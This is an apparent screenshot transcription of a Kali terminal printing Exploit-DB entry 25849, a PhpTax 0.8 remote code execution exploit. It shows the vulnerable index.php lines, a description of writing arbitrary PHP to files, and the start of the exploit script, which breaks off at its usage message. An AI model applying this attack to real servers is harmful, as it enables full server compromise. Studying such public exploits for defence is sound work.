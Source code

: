 ```bash
phptax 0.8 - Remote Code Execution                                                                                                    | exploits/php/webapps/21665.txt
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
kali@kali:~$ cp /usr/share/exploitdb/exploits/php/webapps/25849.txt .
kali@kali:~$ cat 25849.txt
#
#  ,--^----------,--------,-----,-------^--,
#  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
#  `+---------------------------^----------|
#    `\_,-------, _________________________|
#      / XXXXXX /`|     /
#     / XXXXXX /  `\   /
#    / XXXXXX /\______(
#   / XXXXXX /          
#  / XXXXXX /
# (________(            
#  `------'

# Exploit Title   : PhpTax File Manipulation(newvalue,field) Remote Code Execution
# Date            : 31 May 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://phptax.sourceforge.net/
# Software Link   : http://sourceforge.net/projects/phptax/
# Version         : 0.8
# Tested on       : Window and Linux


#####################################################
#VULNERABILITY: FILE MANIPULATION TO REMOTE COMMAND EXECUTION
#####################################################

#index.php

#LINE 32: fwrite fwrite($zz, "$_GET['newvalue']");
#LINE 31: $zz = fopen("./data/$field", "w");
#LINE  2: $field = $_GET['field'];

#####################################################
#DESCRIPTION
#####################################################

#An attacker might write to arbitrary files or inject arbitrary code into a file with this vulnerability.
#User tainted data is used when creating the file name that will be opened or when creating the string that will be written to the file.
#An attacker can try to write arbitrary PHP code in a PHP file allowing to fully compromise the server.


#####################################################
#EXPLOIT
#####################################################

<?php

$options = getopt('u:');

if(!isset($options['u']))
die("\n        Usage example: php exploit.php -u http://target.com/ \n");

```